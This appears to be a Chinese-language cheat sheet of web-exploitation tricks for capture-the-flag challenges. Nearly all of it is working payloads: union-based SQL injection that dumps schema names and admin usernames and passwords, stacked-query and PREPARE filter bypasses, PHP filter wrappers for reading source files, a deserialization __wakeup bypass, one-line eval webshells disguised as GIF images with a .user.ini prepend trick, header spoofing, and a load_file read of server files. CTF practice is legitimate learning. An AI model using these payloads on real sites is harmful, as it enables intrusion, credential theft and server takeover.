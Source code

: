 * web题目，flag文件一般认为在根目录，web服务文件在／var/www/html/目录。上传payload后看不到flag时，看下源码，说不定就有了。

* 在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符.

* 常规注入

  ```shell
  #爆出所有库名
  ?id=0 union select 1,group_concat(distinct table_schema) from information_schema.columns
  #爆出数据库news的所有表名
  ?id=0 union select 1,group_concat(distinct table_name) from information_schema.columns where table_schema = 'news'
  #爆出表admin的所有列
  ?id=0 union select 1,group_concat(distinct column_name) from information_schema.columns where table_name = 'admin'
  #查username和password，中间用:隔开
  ?id=0 union select 1,group_concat(username,0x3a,password) from admin
  ```

* 数字注入

  hack world 1

* sql注入 尝试show tables；or；预处理语句；1' or 1=1;# 好用的语句。

  union 的用法值得研究一下，以及其他常用的注入手法。

  ```sql
  0';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc  words;#

  char(115,101,108,101,99,116)<----->'select'

  1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#

  ```

* web PHP filter 显示后台文件

  ```php
  YOUR_URL?file=php://filter/convert.base64-encode/resource=flag.php

  ?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
  ```

* PHP

  ```php
  __wakeup()方法绕过
  作用：
  与__sleep()函数相反，__sleep()函数，是在序序列化时被自动调用。__wakeup()函数，在反序列化时，被自动调用。
  绕过：
  当反序列化字符串，表示属性个数的值大于真实属性个数时，会跳过 __wakeup 函数的执行。
  所以在上面name后面的2表示有2个属性，我们改成3之后他会绕过__wakeup()
    
  <?php
  class Name
  {
      private $username = 'admin';
      private $password = '100';
  }
  $a = new Name();
  echo serialize($a);
  #进行url编码，防止%00对应的不可打印字符在复制时丢失
  echo urlencode(serialize($a));
  #未编码的情况
  //O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}
  //Name后面的2在链接中要改成3
  ?>
  ```

* php 序列化 反序列化

  ```php
  #在本地执行出序列化结果，然后构造payload
  $password=new Flag();
  $password = serialize($password);
  echo $password; 
  ```

* search by python 

  开源项目 dirsearch

* url

  ```
  +    URL 中+号表示空格                                 %2B  
  空格 URL中的空格可以用+号或者编码           %20
  /   分隔目录和子目录                                     %2F    
  ?    分隔实际的URL和参数                             %3F    
  %    指定特殊字符                                          %25    
  #    表示书签                                                  %23    
  &    URL 中指定的参数间的分隔符                  %26    
  =    URL 中指定参数的值                                %3D

  $IFS$1可以代替空格
  ```

* 伪造headers

  ```shell
  Referer 伪造来自哪里
  X-Forwarded-For 伪造IP
  User-Agent 伪造浏览器
  ```

* webshell

  ```php
  <?php @eval($_POST[cmd]);?>
  GIF89a #伪装图片
  <script language='php'>eval($_POST['shell']);</script>

    .user.ini
  GIF89a                  
  auto_prepend_file=a.jpg
  .user.ini实际上就是一个可以由用户“自定义”的php.ini，我们可以自定义除了PHP_INI_SYSTEM以外的模式，在执行php代码之前，系统会对.user.ini先做一个执行，然后才执行其他的php文件。

  我们这边利用.user,ini先执行auto_prepend_file函数，auto_prepend_file表示在php程序加载第一个php代码前加载的php文件，也就是先加载了a.jpg里面的文件，即一句话木马。
  ```

* md5 注入

  ```
  ffifdyop 这个字符串被 md5 哈希了之后会变成 276f722736c95d99e921722cf9ed621c，这个字符串前几位刚好是 ' or '6
  ```

* robots.txt 

* 反序列化漏洞

* load_file()函数

  ```
  /view.php?no=0 union/**/select 1,load_file('/var/www/html/flag.php'),3,4
  ```

* ​

  ​